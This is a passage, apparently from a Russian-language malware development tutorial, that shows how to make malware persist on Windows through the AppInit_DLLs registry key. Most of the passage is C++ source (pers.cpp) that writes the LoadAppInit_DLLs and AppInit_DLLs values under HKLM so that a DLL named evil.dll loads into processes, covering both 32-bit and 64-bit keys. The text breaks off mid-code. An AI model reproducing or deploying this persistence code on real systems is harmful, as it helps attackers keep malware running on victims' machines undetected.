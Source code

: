 ![pers](./images/55/2022-05-16_01-21.png){width="80%"}    

Теперь простая логика: изменяем ключ реестра `AppInit_DLLs`, добавляя в него путь к DLL, в результате чего `evil.dll` будет загружена.

Для этого создадим другое приложение `pers.cpp`:


```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\
  Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
```